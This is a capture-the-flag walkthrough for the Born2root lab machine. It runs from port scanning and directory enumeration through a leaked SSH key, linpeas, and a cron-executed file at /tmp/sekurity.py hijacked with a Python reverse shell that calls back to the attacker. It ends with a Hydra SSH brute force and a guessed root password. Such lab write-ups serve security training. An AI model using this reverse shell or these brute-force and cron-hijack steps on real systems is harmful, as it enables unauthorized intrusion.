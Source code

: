 # Born2root

## Nmap

```
sudo nmap 192.168.196.49 -p- -sS -sV  

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
44532/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Jumping straight into Port 80 we come to the landing page for a company named 'Secretsec'. Secretsec appear to provide defensive secutity operations to potential clients.

![](<../../../.gitbook/assets/image (1444).png>)

Immediately we have three names available to us:

* Martin
* Hadi
* Jimmy

I added the users to a text file and ran Hydra against the names for `SSH`. Unfortunately after sometime this did not provide any results and is unlikely to be the intended path.

![](<../../../.gitbook/assets/image (1450).png>)

Next I decided to run feroxbuster to enumerate directories and web pages.

```
feroxbuster --url http://192.168.196.49/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -s 200,300,301 --auto-tune -d 2 
```

![](<../../../.gitbook/assets/image (1445).png>)

Of course robots.txt looks interesting. Reading the contents of this file shows the following results:

```
User-agent: *
Disallow: /wordpress-blog
Disallow: /files
```

Checking /files reveals no interesting information.

![](<../../../.gitbook/assets/image (1446).png>)

Of course /wordpress-blog/ is a troll.

![](<../../../.gitbook/assets/image (1447).png>)

Running feroxbuster on /wordpress-blog/ produced no further information and I was unable to extract any information otherwise.

Looking at the feroxbuster results I decided to have a quick look at /icons/ and right at the top we have a non default TXT file.

![](<../../../.gitbook/assets/image (1448).png>)

Opening the text file we are given a RSA key.

![](<../../../.gitbook/assets/image (1449).png>)

Since we know of three potential users on the target machine we can do a little bit of guess work with the key. First copy the key to the attacking machine and set the correct permissions.

```
chmod 600 id_rsa
```

We can then connect in as the user martin.

```
ssh -i id_rsa martin@192.168.214.49
```

![](<../../../.gitbook/assets/image (1452).png>)

It appears you can enter anything to skip the password prompt.... I then tried to upload `linpeas` with `wget` and `curl` and was unable to do so as per below:

![](<../../../.gitbook/assets/image (1453).png>)

We can upload via `SSH` however.

```
scp -i id_rsa /home/kali/scripts/linpeas.sh martin@192.168.214.49:/home/martin/linpeas.sh
```

After running linpeas we identify the file /tmp/sekurity.py is executed every five minutes in the context of the user jimmy.

![](<../../../.gitbook/assets/image (1454).png>)

When checking for the file we find it does not exists. As such we can create a python reverse shell file and call it sekurity.py.

First I used nano to create and start editing the python file. In which I passed a python reverse shell into.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.214",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

![](<../../../.gitbook/assets/image (1455).png>)

After saving the file I set a `netcat` listener on my attacking machine.

```
sudo nc -lvp 80
```

Soon landing a shell as the user jimmy.

![](<../../../.gitbook/assets/image (1456).png>)

Looking at the contents of jimmy's home directory we see a binary with the root SUID bit set.

![](<../../../.gitbook/assets/image (1457).png>)

Running the binary pings local host and shows `ifconfig` information. I was unable to execute with any extra commands for exploitation. Running strings on the binary shows the 'echo' command without a fully defined path.

I did try creating my own malicious echo binary on jimmy's home directory and changing path to execute this directory first. This did not work for some reason.

Desperate enough at this point I grepped rockyou.txt for our last remaining user 'hadi' and sent the results to a text file.

```
cat /usr/share/wordlists/rockyou.txt | grep hadi > /home/kali/scripts/bruteforce/hadi.txt 
```

I then used the text file with Hydra to bruteforce SSH which actually worked.

![](<../../../.gitbook/assets/image (1458).png>)

![](<../../../.gitbook/assets/image (1459).png>)

After connecting as hadi I got stuck again and out of sheer desperation tried switching to root with the password of 'hadi123' which worked...

![](<../../../.gitbook/assets/image (1460).png>)
